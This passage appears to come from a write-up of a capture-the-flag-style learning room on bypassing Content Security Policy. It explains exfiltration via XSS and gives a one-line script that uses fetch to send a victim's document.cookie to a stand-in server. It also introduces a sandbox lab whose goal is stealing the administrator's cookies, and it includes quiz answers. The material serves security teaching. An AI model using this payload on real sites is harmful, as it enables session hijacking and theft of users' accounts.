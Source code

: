 <h3>Exfiltration</h3>
<p>﻿To exfiltrate sensitive information, your client needs to connect to a webserver you control. For our purposes, we can use a free service such as Beeceptor to receive the information via the path of the request. If you have access to a paid service such as Burp Collaborator, you can use this instead.<br>

If you prefer running a web server for exfiltration locally, you can set up a simple HTTP server using python by running <code>python -m SimpleHTTPServer</code> or <code>python3 -m http.server</code>.<br>

If the website you're exploiting allows AJAX requests (via connect-src) to anywhere, you can create a fetch request to your server like so:<br>

- <code><script>fetch(`http://example.com/${document.cookie}`)</script></code><br>

When the script is triggered on the victim's machine, you'll see their cookies show up in your access log, like so:<br><br>


<img width="1005" height="166" alt="image" src="https://github.com/user-attachments/assets/6c965f4b-559e-450b-828c-1e4baac99569" /><br><br>

If you found an XSS vulnerability and bypassed CSP, but can't leak any information with it via XHR requests or fetch, the <code>connect-src</code> policy may be blocking your requests. This can be bypassed if the website you're exploiting doesn't have strict settings for directives such as image-src and media-src, which can be abused to leak information.<br><br>

<img width="1012" height="47" alt="image" src="https://github.com/user-attachments/assets/0c03034b-feb6-4cd4-b27a-0e79fb3b043a" />


<p><em>Answer the question below</em></p>

<p>5.1. If Ajax/XHR requests are blocked, can we still exfiltrate sensitive information? (Yes / No)<br>
<code>Yes</code></p>

<br>
<h2>Task 6 . CSP Sandbox</h2>
<p>Time to put your practice to test! I've created a VM that is intentionally vulnerable to XSS but uses various content security policies to mitigate it. You should be able to test what you've learned so far. It consists of 10 challenges, 7 of which are attack and 3 are defend, and also a playground where you can test your own CSP configurations.<br><br>

[ Start Machine ]<br><br>

You can access the introduction at http://xx.xxx.xxx.xxx/. </p>

<p><em>Answer the question below</em></p>

<p>5.1. I have deployed the CSP Sandbox machine.<br>
<code>Yes</code></p>

<br>
<h2>Task 7 . CSP Sandbox :: Attack challenges</h2>
<p>To deploy the machine, go to the <strong>CSP Sandbox</strong> task.<br><br>

<strong>Attack</strong> challenges require you to bypass the CSP header sent by the webpage and exfiltrate the administrator's cookies. For methods on how you can achieve this, refer to the Bypassing CSP task of this room.<br><br>
